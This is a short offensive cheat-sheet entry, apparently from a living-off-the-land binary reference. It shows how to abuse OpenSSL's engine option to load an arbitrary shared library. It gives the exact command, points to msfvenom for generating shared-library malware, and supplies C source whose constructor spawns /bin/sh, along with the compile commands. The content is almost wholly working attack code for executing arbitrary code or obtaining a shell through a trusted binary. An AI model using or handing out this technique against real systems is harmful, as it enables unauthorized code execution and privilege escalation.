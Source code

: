 # OpenSSL Library Load

**OpenSSL can be used to load and run arbitrary libraries (.so) like this:**

```
openssl req -engine ./lib.so
```

**To make the required shared library, either use `msfvenom` to generate a shared library malware, or compile this code:**

```
#include <unistd.h>

__attribute__((constructor))
static void init() {
    execl("/bin/sh", "sh", NULL);
}
```

**Compilation flags:**
```
gcc -fPIC -o openssl.o -c openssl.c
gcc -shared -o openssl.so -lcrypto openssl.o
```
